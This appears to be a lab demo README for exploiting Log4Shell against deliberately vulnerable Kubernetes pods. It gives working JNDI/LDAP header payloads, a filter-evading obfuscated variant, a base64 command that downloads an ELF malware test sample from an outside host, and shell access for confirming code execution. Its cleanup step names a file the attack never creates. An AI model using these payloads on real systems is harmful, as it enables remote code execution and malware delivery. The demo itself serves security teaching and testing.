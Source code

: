 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Running the Demo](#running-the-demo)
- [Encode with base64 your command](#encode-with-base64-your-command)
- [Execute the attack without obfuscation](#execute-the-attack-without-obfuscation)
- [Execute the attack with obfuscation](#execute-the-attack-with-obfuscation)
- [Confirm that the code execution was successful](#confirm-that-the-code-execution-was-successful)
- [Connect to runnint pod](#connect-to-runnint-pod)
- [Delete file inside the container](#delete-file-inside-the-container)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

Running the Demo
----------------

kubectl config set-context $(kubectl config current-context) --namespace=dirty-net2

1. Get into the attacking host

kubectl exec -it att-svr /bin/bash

2. Run the following two commands to execute the attack to the “vul-app1” container

curl vul-app1:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr-5cd59d5f4-2vcfv:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'


Note: The command embedded in the HTTP header is

$ echo 'd2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK' | base64 -d wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/malware-sample





## Encode with base64 your command

```console
echo "touch /tmp/youHaveBeenPwned" | base64 -w0
dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==
```

## Execute the attack without obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Execute the attack with obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Confirm that the code execution was successful

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- ls -l /tmp
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- ls -l /tmp

```

## Connect to runnint pod

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- sh
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- sh
```

## Delete file inside the container

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- rm -f /tmp/youHaveBeenOwned
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- rm -f /tmp/youHaveBeenOwned
```